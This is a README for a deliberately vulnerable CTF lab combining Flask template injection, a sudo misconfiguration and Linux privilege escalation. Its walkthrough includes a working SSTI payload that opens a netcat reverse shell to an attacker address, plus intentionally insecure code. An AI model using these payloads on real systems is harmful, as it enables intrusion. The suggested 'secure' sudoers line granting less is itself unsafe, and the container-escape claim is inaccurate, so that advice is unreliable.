 # Tholvi Docker 1 - Medium CTF Machine

![Difficulty](https://img.shields.io/badge/Difficulty-Medium-orange)
![Category](https://img.shields.io/badge/Category-Web%20%2B%20PrivEsc-blue)
![Platform](https://img.shields.io/badge/Platform-Docker%2FLinux-lightgrey)

A deliberately vulnerable CTF machine with:
- Flask Server-Side Template Injection (SSTI)
- Docker container escape
- Linux privilege escalation

## Table of Contents
1. [Quick Start](#quick-start)
2. [Vulnerabilities](#vulnerabilities)
   - [Flask SSTI](#1-flask-ssti---remote-code-execution)
   - [Docker Escape](#2-docker-escape---host-access)
   - [Privilege Escalation](#3-privilege-escalation---root)
3. [Exploitation Walkthrough](#exploitation-walkthrough)
4. [Mitigation Guide](#mitigation-guide)
5. [Flag Locations](#flag-locations)
6. [Educational Value](#educational-value)

---

## Quick Start
```bash
# Build and run
git clone https://github.com/your-repo/dockerized-flask-ctf.git
cd dockerized-flask-ctf
docker-compose up -d

# Access the web app
curl http://localhost:5000

## Vulnerabilities
### 1. Flask SSTI - Remote Code Execution

#### Vulnerable Code:

```Python
@app.route("/debug")
def debug():
    user_input = request.args.get('input', 'None')
    return render_template_string(f"Debug: {user_input}")  # SSTI here
    ```
#### Impact:

    Execute arbitrary commands as ctf user inside container.

### 2. Docker Escape - Host Access

Misconfiguration:

```Bash
RUN echo "ctf ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```
Impact:

    Break out of container to host system via sudo.

3. Privilege Escalation - Root

Attack Vectors:

    SUID Binary: /usr/bin/suid-wrapper (compiled with setuid(0))

    Kernel Exploit: DirtyPipe (CVE-2022-0847) in privileged container.

Exploitation Walkthrough
Step 1: Gain Initial Access (SSTI)

    Detect SSTI:
```http
http://localhost:5000/debug?input={{7*7}}
```
Output: Debug: 49
Get reverse shell:

```Python
{{request.application.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4444 >/tmp/f').read()}}
```
Step 2: Escape Docker Container

    Check containerization:
```Bash
cat /proc/1/cgroup | grep docker
```
Abuse sudo:
```Bash
sudo su  # No password required
```
Step 3: Privilege Escalation

Option A: SUID Binary
```bash
/usr/bin/suid-wrapper  # Spawns root shell
```
Option B: Kernel Exploit
```Bash
gcc dirtypipe.c -o exploit && ./exploit
```
Mitigation Guide
Vulnerability	Secure Configuration
SSTI	Use render_template() instead of render_template_string()
Docker Escape	Remove NOPASSWD in /etc/sudoers
Priv Esc	Patch kernel and avoid privileged: true in Docker

Secure Dockerfile Example:
```Dockerfile
USER ctf
RUN echo "ctf ALL=(ALL) /usr/bin/less" >> /etc/sudoers  # Restrict sudo
```
Flag Locations
Flag	Path	Unlock Condition
user.txt	/home/ctf/user.txt	After SSTI exploit
root.txt	/root/root.txt	After privilege escalation
Educational Value

Skills Learned:

    Web app testing (SSTI detection)

    Container security auditing

    Linux privilege escalation

Recommended Tools:

    linpeas.sh for host enumeration

    checksec for binary analysis

    docker inspect for container auditing
